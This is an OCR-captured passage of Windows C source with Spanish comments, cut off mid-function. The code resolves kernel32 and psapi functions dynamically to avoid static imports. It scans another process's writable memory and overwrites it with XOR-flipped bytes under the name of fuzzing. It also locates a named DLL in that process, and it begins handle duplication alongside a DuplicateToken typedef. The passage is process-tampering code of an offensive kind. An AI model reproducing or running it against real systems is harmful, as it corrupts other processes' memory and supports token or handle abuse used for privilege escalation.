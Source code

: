 ```c
typedef BOOL (__stdcall *DuplicateToken_t)(HANDLE, int, HANDLE*);

// Función para fuzzear memoria de la DLL
void fuzzMemory(HANDLE hProcess, LPVOID baseAddress) {
    BYTE buffer[256];
    SIZE_T bytesRead;
    MEMORY_BASIC_INFORMATION mbi;

    VirtualQueryEx_t VirtualQueryEx = (VirtualQueryEx_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "VirtualQueryEx");
    ReadProcessMemory_t ReadProcessMemory = (ReadProcessMemory_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "ReadProcessMemory");
    WriteProcessMemory_t WriteProcessMemory = (WriteProcessMemory_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "WriteProcessMemory");

    while (VirtualQueryEx(hProcess, baseAddress, &mbi, sizeof(mbi)) == sizeof(mbi)) {
        if (mbi.State == MEM_COMMIT && (mbi.Protect & PAGE_READWRITE)) {
            if (ReadProcessMemory(hProcess, mbi.BaseAddress, buffer, sizeof(buffer), &bytesRead)) {
                // Operación de fuzzing simple (XOR)
                for (SIZE_T i = 0; i < bytesRead; i++) {
                    buffer[i] ^= 0xFF;
                }

                if (!WriteProcessMemory(hProcess, mbi.BaseAddress, buffer, bytesRead, &bytesRead)) {
                    // Fallo al escribir en la memoria
                }
            }
        }
        baseAddress = (LPVOID)((ULONG_PTR)mbi.BaseAddress + mbi.RegionSize);
    }
}

// Función para encontrar un módulo específico (DLL) en un proceso
HMODULE findTargetModule(HANDLE hProcess, const char* targetModuleName) {
    HMODULE hMods[MAX_MODULES];
    DWORD cbNeeded;
    char moduleName[256];

    EnumProcessModules_t EnumProcessModules = (EnumProcessModules_t)GetProcAddress(LoadLibraryA("psapi.dll"), "EnumProcessModules");
    GetModuleBaseNameA_t GetModuleBaseNameA = (GetModuleBaseNameA_t)GetProcAddress(LoadLibraryA("psapi.dll"), "GetModuleBaseNameA");

    if (EnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded)) {
        for (unsigned int i = 0; i < (cbNeeded / sizeof(HMODULE)); i++) {
            if (GetModuleBaseNameA(hProcess, hMods[i], moduleName, sizeof(moduleName))) {
                if (strcmp(moduleName, targetModuleName) == 0) {
                    return hMods[i];
                }
            }
        }
    }
    return NULL;
}

// Función para duplicar un handle específico
void duplicateHandle(HANDLE hProcess, HANDLE targetHandle) {
    HANDLE dupHandle;
    DuplicateHandle_t DuplicateHandle = (DuplicateHandle_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "DuplicateHandle");

```